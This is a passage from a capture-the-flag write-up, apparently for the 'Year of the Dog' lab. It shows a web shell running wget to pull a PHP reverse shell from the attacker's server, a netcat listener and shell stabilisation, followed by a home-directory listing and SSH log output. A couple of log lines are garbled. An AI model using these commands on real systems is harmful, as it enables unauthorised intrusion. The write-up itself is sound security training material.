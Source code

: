 - Then create a python server on the folder of the shell: `python3 -m http.server 8090`
- Now on the browser download the `sexyshell.php` with: `yearofdog.thm/shell.php?cmd=wget http://10.11.74.136:8090/sexyshell.php`
- Now set up a **netcat** listener like: `nc -lvp 666`
- Search in the browser for: `yearofdog.thm/sexyshell.php`

We've got a reverse shell :D

![](Pasted%20image%2020240322203414.png)

Stabilise it first:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Now that we have a stable shell, find hidden files on the `/home` directory: 

```shell
total 120K
drwxr-xr-x 4 dylan dylan 4.0K Sep  5  2020 .
drwxr-xr-x 3 root  root  4.0K Sep  3  2020 ..
lrwxrwxrwx 1 dylan dylan    9 Sep  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 dylan dylan  220 Sep  3  2020 .bash_logout
-rw-r--r-- 1 dylan dylan 3.7K Sep  3  2020 .bashrc
drwx------ 2 dylan dylan 4.0K Sep  3  2020 .cache
-rw-rw-r-- 1 dylan dylan   53 Sep  5  2020 .gitconfig
drwx------ 3 dylan dylan 4.0K Sep  3  2020 .gnupg
lrwxrwxrwx 1 root  root     9 Sep  3  2020 .mysql_history -> /dev/null
-rw-r--r-- 1 dylan dylan  807 Sep  3  2020 .profile
-rw-r--r-- 1 dylan dylan    0 Sep  3  2020 .sudo_as_admin_successful
-r-------- 1 dylan dylan   38 Sep  5  2020 user.txt
-rw-r--r-- 1 dylan dylan  84K Sep  5  2020 work_analysis
```

What is `work_analysis`? Let's check it by doing `less work_analysis`:

```shell
Sep  5 20:52:34 staging-server sshd[39184]: Received disconnect from 192.168.1.142 port 45582:11: Bye Bye [preauth]
Sep  5 20:52:34 staging-server sshd[39184]: Disconnected from authenticating user root 192.168.1.142 port 45582 [preauth]
Sep  5 20:52:35 staging-server sshd[39190]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39191]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39194]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhoroot flagst=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39195]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39192]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39189]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39186]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39196]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39188]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39197]: pam_unix(sshd:auth): authentication work_analysis
```
